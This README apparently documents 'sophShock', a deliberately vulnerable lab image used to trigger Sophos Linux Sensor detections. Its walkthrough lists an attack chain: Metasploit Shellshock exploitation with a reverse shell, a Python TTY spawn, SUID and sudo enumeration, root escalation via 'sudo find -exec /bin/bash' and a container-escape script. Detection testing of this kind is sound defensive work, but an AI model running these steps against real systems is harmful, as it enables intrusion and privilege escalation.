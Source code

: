 # sophShock

This image is for generating Sophos Linux Sensor detections.
For testing purposes only, advised not to run this in a public facing manner.

#Walk Thru

#Metasploit:
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec

- set RHOST <ip addr>
- set RPORT 8080
- set LHOST <ip addr>
- set LPORT <reverse listening port>
- set TARGETURI /cgi-bin/shockme.cgi 
- run 

# establish tty
python -c 'import pty; pty.spawn("/bin/bash")'

# switch to user with sudo privileges
Perhaps one of the users has something interesting?
getent group sudo


# find files with SUID bit set
find / -perm -4000 2>/dev/null

# exploit find binary
sudo find . -exec /bin/bash \; -quit
(interactive shell detection from SLS)

# run escape.sh from root directory
(userland container escape detection)
 - outputs are in /output



#references:
- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
- https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
